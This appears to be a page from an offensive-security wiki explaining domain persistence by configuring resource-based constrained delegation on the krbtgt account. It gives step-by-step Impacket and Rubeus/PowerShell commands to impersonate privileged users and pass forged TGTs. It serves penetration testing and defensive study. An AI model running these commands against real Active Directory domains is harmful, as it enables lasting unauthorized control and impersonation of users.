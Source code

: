 # Delegation to KRBTGT

## Theory

The idea behind this technique is to configure [resource-based constrained delegation](../../movement/kerberos/delegations/rbcd.md) on the `krbtgt` account to generate TGTs on-demand as a persistence technique. The requirements for the technique are to have enough privileges (i.e. domain admin rights) to edit the `krbtgt` account's "rbcd" attribute (i.e. `ms-DS-Allowed-To-Act-On-Behalf-Of-Other-Identity`) and to control an account that has an SPN ([or create one](../../movement/builtins/machineaccountquota.md#create-a-computer-account), or do [SPN-less RBCD](../../movement/kerberos/delegations/rbcd.md#rbcd-on-spn-less-users)).

Once the delegation is configured, an attacker can later on obtain a service ticket for the krbtgt on behalf of any user. 

Since a TGT is just a Service Ticket for the `KRBTGT` service, it means the attacker has a persistence technique allowing him to obtain a TGT for almost any user in the domain. The only limitations are the "Protected Users" group, or the "Account is sensitive and cannot be delegated" parameter. Those settings can protect users from delegation and will prevent attackers from obtaining a ticket that looks like a TGT on their behalf through a delegation trick.

An example of the abuse goes as follows :

1. Configure RBCD delegation on the `krbtgt` account to allow a controlled account to delegate to it. The controlled account should have at least one SPN (i.e. ServicePrincipalName) for the delegation to work (or, see [SPN-less RBCD](../../movement/kerberos/delegations/rbcd.md#rbcd-on-spn-less-users)). This controlled account will be called "ControlledAccountWithSPN".
2. Perform a full [S4U](../../movement/kerberos/delegations/) attack to obtain a Service Ticket for the `krbtgt` service, on behalf of another privileged user. Let's call this chosen user "TargetedAccount". The ticket obtained through this process is for the `KRBTGT` service, which basically means the ticket can be used as a TGT for the TargetedAccount.
3. [Pass-the-ticket](../../movement/kerberos/ptt.md) to use the Service-Ticket-that-is-in-fact-a-TGT, act as the target -privileged- user, and authenticate to remote resources.

## Practice

::: tabs

=== UNIX-like

Every step of this attack can be achieved using one of the following scripts from [Impacket](https://github.com/fortra/impacket) (Python), such as rbcd.py and getST.py.


```bash
# Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
rbcd.py -delegate-from 'ControlledAccountWithSPN' -delegate-to 'krbtgt' -dc-ip $dcIp -action write 'DOMAIN'/'PrivilegiedAccount':'StrongPassword'

# Step 2 : S4U attack for TargetedAccount to ControlledAccountWithSPN
getST.py -spn "KRBTGT" -impersonate "TargetedAccount" -dc-ip $dcIp 'DOMAIN'/'ControlledAccountWithSPN':'PasswordOfControlledAccountWithSPN'

# Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (which is a TGT).
KRB5CCNAME='TargetedAccount@krbtgt_DOMAIN@DOMAIN.ccache' getST.py -spn 'cifs/target' -k -no-pass 'DOMAIN'/'TargetedAccount'
```



=== Windows

Every step of this attack can be achieved using Rubeus and the Set-ADUser command.


```powershell
# Step 1 : Configure RBCD delegation from ControlledAccountWithSPN to krbtgt
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount ControlledAccountWithSPN

# Step 2 : Full S4U for TargetedAccount to krbtgt using ControlledAccountWithSPN
Rubeus.exe s4u /nowrap /impersonateuser:"TargetedAccount" /msdsspn:"krbtgt" /domain:"DOMAIN" /user:"ControlledAccountWithSPN" /rc4:$NThash

# Step 3 : Get Service Ticket for TargetedAccount to the target service using the previously obtained ticket (printed in a base64 blob thanks to the /nowrap flag), and inject it in memory using /ptt in order to use the resulting ticket for authentication to remote resources
Rubeus.exe asktgs /service:"cifs/target" /ticket:"base64ticket...." /ptt
```


:::


## Resources

[https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#unconstrained-domain-persistence](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#unconstrained-domain-persistence)

[https://skyblue.team/posts/delegate-krbtgt/](https://skyblue.team/posts/delegate-krbtgt/)


[rbcd.md](../../movement/kerberos/delegations/rbcd.md)

